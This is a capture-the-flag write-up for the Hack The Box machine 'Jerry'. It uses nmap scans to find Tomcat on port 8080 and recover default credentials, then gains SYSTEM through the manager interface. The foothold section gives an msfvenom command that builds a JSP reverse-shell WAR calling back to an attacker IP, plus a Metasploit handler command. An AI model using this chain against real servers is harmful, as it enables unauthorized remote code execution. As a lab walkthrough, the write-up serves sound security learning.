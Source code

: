 ```yaml
---
title: Jerry
published: true
layout: post
---
```


<br />

---------------
Although Jerry is one of the easiest machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/SxrTIBxgnwE?si=D6W_zYFHUTDfnarv" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.95 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn
sudo nmap -sU 10.10.10.95 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn
```

![](/assets/Jerry/1.png)
<br />
<br />
<br />

The UDP scan didn't return anything.

<br />

There is **1 open port**:
+ **8080/tcp**

<br />

Let's check which **services** are running in this port:

```bash
sudo nmap -sS 10.10.10.95 -p 8080 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Jerry/2.png)
<br />
<br />
<br />

We can see that the service corresponds to:
+ **8080/tcp Apache Tomcat/Coyote JSP engine 1.1**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.95 -p 8080 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

![](/assets/Jerry/3.png)
<br />
<br />
<br />

This last scan returned a lot of information, but there is a specific critical piece of information, we found credentials ***tomcat:s3cret***.

<br />

------

<br />
### Foothold

The foothold in this machine is very easy now that we have obtained **credentials**.

<br />

We can go to the main web page and click on the ***Server Status* button**:
<br />
![](/assets/Jerry/4.png)
<br />
<br />
<br />

Now we will be prompted for credentials, we will use the ones we retrieved earlier:
<br />
![](/assets/Jerry/5.png)
<br />
<br />
<br />

Now we must go to ***List Applications***:
<br />
![](/assets/Jerry/6.png)
<br />
<br />
<br />

Here we will be able to **upload WAR files**, knowing that Tomcat is using a JSP engine, we can upload a **JSP reverse shell** and set up a listener:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.7 LPORT=4444 --platform windows -f war -o revshell.war
msfconsole -x "use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp; set LHOST 10.10.16.7; set LPORT 4444; run"
```

![](/assets/Jerry/7.png)
<br />
<br />
<br />

After this we will have a **new site available */revshell***, we can click on it to receive our reverse shell:
<br />
![](/assets/Jerry/8.png)
<br />
![](/assets/Jerry/9.png)
<br />
<br />
<br />

We have obtained RCE as **NT AUTHORITY\SYSTEM**, so we can print both flags:
```bash
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

![](/assets/Jerry/10.png)
<br />
<br />
<br />
